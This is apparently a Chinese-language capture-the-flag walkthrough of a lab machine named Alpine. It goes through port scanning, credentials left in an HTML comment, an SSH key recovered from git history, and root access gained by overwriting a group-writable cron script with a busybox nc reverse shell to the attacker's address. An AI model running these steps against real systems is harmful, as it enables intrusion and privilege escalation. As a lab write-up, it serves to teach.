




# Alpine


# Alpine



# 端口扫描

```python
└─# nmap -sV -A 192.168.56.108           
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-12-16 00:31 CST
Nmap scan report for 192.168.56.108
Host is up (0.00061s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.66
|_http-server-header: Apache/2.4.66 (Unix)
|_http-title: Did not follow redirect to http://alpine.nyx/
MAC Address: 08:00:27:3A:FF:A5 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: Host: default

TRACEROUTE
HOP RTT     ADDRESS
1   0.61 ms 192.168.56.108

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.42 seconds
                                                                  
```

# 80/tcp

访问跳转到 http://alpine.nyx/ 加个 host，然后扫描一下目录

> ​`192.168.56.108 alpine.nyx`

```python
┌──(root㉿kali)-[~]
└─# dirsearch -u http://alpine.nyx/        
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /root/reports/http_alpine.nyx/__25-12-16_01-05-50.txt

Target: http://alpine.nyx/

[01:05:50] Starting: 
[01:05:52] 403 -  313B  - /.ht_wsr.txt
[01:05:52] 403 -  313B  - /.htaccess.bak1
[01:05:52] 403 -  313B  - /.htaccess.orig
[01:05:52] 403 -  313B  - /.htaccess.sample
[01:05:52] 403 -  313B  - /.htaccess_orig
[01:05:52] 403 -  313B  - /.htaccess.save
[01:05:52] 403 -  313B  - /.htaccess_extra
[01:05:52] 403 -  313B  - /.htaccess_sc
[01:05:52] 403 -  313B  - /.htaccessBAK
[01:05:52] 403 -  313B  - /.htaccessOLD
[01:05:52] 403 -  313B  - /.htaccessOLD2
[01:05:52] 403 -  313B  - /.html
[01:05:52] 403 -  313B  - /.htm
[01:05:52] 403 -  313B  - /.httr-oauth
[01:05:52] 403 -  313B  - /.htpasswds
[01:05:52] 403 -  313B  - /.htpasswd_test
[01:06:09] 200 -  820B  - /cgi-bin/printenv
[01:06:09] 200 -    1KB - /cgi-bin/test-cgi
[01:06:22] 200 -    3KB - /login.html
[01:06:30] 200 -    9KB - /profile.html
[01:06:38] 403 -  313B  - /server-status/
[01:06:38] 403 -  313B  - /server-status

```

发现 有个 login.html，然后再源码发现登入密码

```python
    <!-- TODO: Remove test credentials before going live -->
    <!-- portal test user: testuser / WinterIsComing! -->
```

在设置发现 ssh 登入账号



```python
┌──(root㉿kali)-[~]
└─# ssh developer@alpine.nyx
developer@alpine.nyx's password: 
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <https://wiki.alpinelinux.org/>.

You can setup the system with the command: setup-alpine

You may change this message by editing /etc/motd.

developer@alpine:~$ id
uid=1000(developer) gid=1000(developer) groups=1000(developer)
developer@alpine:~$ cat user.txt 
30a0cf321ff0c0997f45a7202490b260
```

# 提权 sysadmin

有一个 README.txt 还有 .gitconfig 文件，发现有个提示跟 git 有关

```python
developer@alpine:~$ cat README.txt
=== SnowPeak Development Notes ===

Hi Developer,

Welcome to the SnowPeak development environment!

IMPORTANT REMINDERS:
1. The sysadmin user manages the webapp code in their directory
2. We use git as a deployment pipeline
3. Don't forget to check the cleaners ! 

If you need elevated access, contact sysadmin.

- Management
developer@alpine:~$ cat .gitconfig
[safe]
        directory = /home/sysadmin/webapp
```

然后找打 .git 文件

```python
developer@alpine:/home/sysadmin/webapp$ ls -la
total 16
drwxr-xr-x    3 sysadmin sysadmin      4096 Dec 11 11:14 .
drwxr-sr-x    4 sysadmin sysadmin      4096 Dec 12 17:19 ..
drwxr-xr-x    7 sysadmin sysadmin      4096 Dec 11 11:14 .git
-rwxr-xr-x    1 sysadmin sysadmin       171 Dec 11 11:13 config.php
```

查看 git 提交历史，发现有一个 SSH keys

```python
developer@alpine:/home/sysadmin/webapp$ git log --pretty=oneline | more
0c6ee270764eb91ee53afc9784881371d4dddd93 Remove backup
02f9a1879dbfa40703a6bcbd985e5a19542c24c8 Backup SSH keys before server migration
2823ba92f4fdee9b5d71e74f9f060a5d5ed3b593 Initial commit: Add database config
```

然后查看备份 SSH keys 的提交，可以找到私钥

```python
git show 02f9a1879dbfa40703a6bcbd985e5a19542c24c8

git --no-pager log -p 02f9a1879dbfa40703a6bcbd985e5a19542c24c8
```



然后把私钥提取出来，在私钥私钥登入

```python
# 提取私钥并保存
git --no-pager show 02f9a1879dbfa40703a6bcbd985e5a19542c24c8:.ssh-backup/id_rsa > /tmp/id_rsa

# 设置权限
chmod 600 /tmp/id_rsa

# 使用私钥登录
ssh -i /tmp/id_rsa sysadmin@localhost
```



# 提权 root

然后再根据第三条提示在进行提权，并且有个 NOTES.txt

> Don't forget to check the cleaners !

```bash
sysadmin@alpine:~# cat NOTES.txt 
=== System Administration Notes ===

TASKS COMPLETED:
[x] Setup webapp git repository
[x] Configure SSH keys for remote access
[x] Clean up sensitive files from git repo

PENDING:
[ ] Speak about the automated cleanup strategy. It currently runs every two minutes


- SysAdmin Team
```

查找所有 cleaner 相关文件，发现有一个 cleanup.sh

```python
sysadmin@alpine:~$ find / -name "*clean*" 2>/dev/null
/usr/libexec/git-core/git-clean
/opt/scripts/cleanup.sh
/sys/kernel/tracing/events/neigh/neigh_cleanup_and_release
/sys/kernel/tracing/events/ext4/ext4_fc_cleanup
/sys/module/rcutree/parameters/gp_cleanup_delay
/var/log/cleanup.log
```

查看最近修改的脚本也能发现

```python
sysadmin@alpine:~$ find /usr/local/bin /opt /etc/cron* -type f 2>/dev/null
/opt/scripts/cleanup.sh
/etc/crontabs/root
```

查看 cleanup.sh 内容和权限

```bash
sysadmin@alpine:~$ ls -la /opt/scripts/cleanup.sh
-rwxrwxr-x    1 root     sysadmin       236 Dec 11 14:21 /opt/scripts/cleanup.sh
sysadmin@alpine:~$ cat /opt/scripts/cleanup.sh
#!/bin/sh
# System cleanup script
# Cleans temporary files older than 7 days
find /tmp -type f -mtime +7 -delete 2>/dev/null
find /var/tmp -type f -mtime +7 -delete 2>/dev/null
```

发现 cleanup.sh 的权限是 -rwxrwxr-x，属主是 root，sysadmin 组可写。在  `NOTES.txt` 也话明确说了"自动化清理策略每2分钟运行一次"。然后直接写一个反弹 shell 即可

```bash
sysadmin@alpine:~# echo '#!/bin/sh' > /opt/scripts/cleanup.sh
sysadmin@alpine:~# echo 'busybox nc 192.168.56.102 3344 -e /bin/bash' >> /opt/scripts/cleanup.sh
```

```bash
└─# nc -lvnp 3344
listening on [any] 3344 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.108] 44723
id
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
cat /root/r*
6b75b087f12ed42f124d68493469a493
```

> user.txt：30a0cf321ff0c0997f45a7202490b260
>
> root.txt：6b75b087f12ed42f124d68493469a493

‍


---

> 作者: [lpppp](/)  
> URL: https://lpppp.xyz/posts/alpine/  

